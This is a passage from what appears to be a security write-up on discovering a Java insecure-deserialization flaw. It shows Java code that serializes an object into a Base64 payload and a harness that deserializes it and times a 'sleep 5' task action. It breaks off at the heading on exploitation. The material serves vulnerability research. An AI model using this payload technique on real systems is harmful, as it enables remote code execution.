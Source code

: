 ```java
                    ObjectOutputStream oos = new ObjectOutputStream(baos);
                    oos.writeObject(vth);
                    oos.close();
                    blob = Base64.getEncoder().encodeToString(baos.toByteArray());
                    System.out.println(blob); 
                }
                catch (Exception ex)
                {
                }
                return;
            }
        }
    }
}
```

We can also verify deserialization like this:

```java
try
{
    long t1, t2;
    t1 = System.currentTimeMillis();
  	ByteArrayInputStream bais = new ByteArrayInputStream(Base64.getDecoder().decode(blob));
  	ObjectInputStream ois = new ObjectInputStream(bais);
  	Object object = ois.readObject();
    System.out.println(object.getClass());
    t2 = System.currentTimeMillis();
    System.out.println("Delay: " + (t2 - t1) + " ms");
}
catch (Exception ex)
{
	ex.printStackTrace();
}
```

Bear in mind the time zone on the target machine. My docker for example had the time zone set to UTC and my Kali Linux box to CEST, so I needed to substract another 120 minutes from the `requestedExecutionTime`.

Example execution for "sleep 5" task action:

![DeserializationExperiment](../images/2021-06-23-Vuln_discovery_Java/DeserializationExperiment.png)

#### Exploiting insecure deserialization
This is the last piece of our exploit for today:
